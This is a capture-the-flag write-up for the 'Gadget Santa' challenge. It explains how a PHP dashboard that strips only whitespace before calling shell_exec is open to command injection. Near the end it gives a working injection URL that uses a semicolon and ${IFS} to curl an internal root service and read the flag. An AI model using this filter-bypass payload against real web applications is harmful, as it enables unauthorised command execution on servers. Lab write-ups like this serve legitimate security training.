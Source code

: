 # Gadget Santa

## Challenge

The webpage is a dashboard with buttons to display data about the machine, such as RAM, storage, connections, and processes.
There are also buttons to check the status and restart a different server.

## Solution

We are given source code and we can see how our button presses are interpreted by the server.

#### challenge/models/MonitorModel.php

```php
<?php
class MonitorModel
{   
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {   
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

The php server passes our request to the `santa_mon.sh` script, after sanitizing it by removing whitespaces.

We can use a semicolon to add our own bash commands after this script.

Though spaces are forbidden, we can use `${IFS}` to insert whitespace into the bash command instead.

If we look at processes, we can see a python script `ups_manager.py` is being run as root.

#### config/ups_manager.py

```py
elif self.path == '/get_flag':
        resp_ok()
        self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
        return
```

This is a python server running on port 3000 which hosts the flag.

We can't access this server directly as we don't have access to port 3000, but we can use the command injection to inject a curl request to this server.

```
http://178.62.5.61:31471/?command=;curl${IFS}localhost:3000/get_flag
```

## Flag

`HTB{54nt4_i5_th3_r34l_r3d_t34m3r}`

